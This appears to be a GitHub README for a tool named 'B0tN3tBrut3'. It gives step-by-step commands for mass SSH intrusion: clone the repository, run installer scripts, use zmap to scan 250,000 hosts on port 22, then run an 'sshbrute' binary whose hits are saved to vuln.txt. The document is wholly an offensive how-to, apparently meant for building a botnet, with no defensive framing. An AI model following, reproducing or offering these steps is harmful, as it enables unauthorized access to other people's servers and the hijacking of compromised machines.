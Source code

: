 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



   1- sh ScannerInstall.sh         
   
   
    if it asks for [Yes] press enter
    if it asks for [autodetect] press enter


  
    2- sh CentOS_zmap_auto_install.sh

 


    3- chmod 777 * 

    4- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

         5-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">

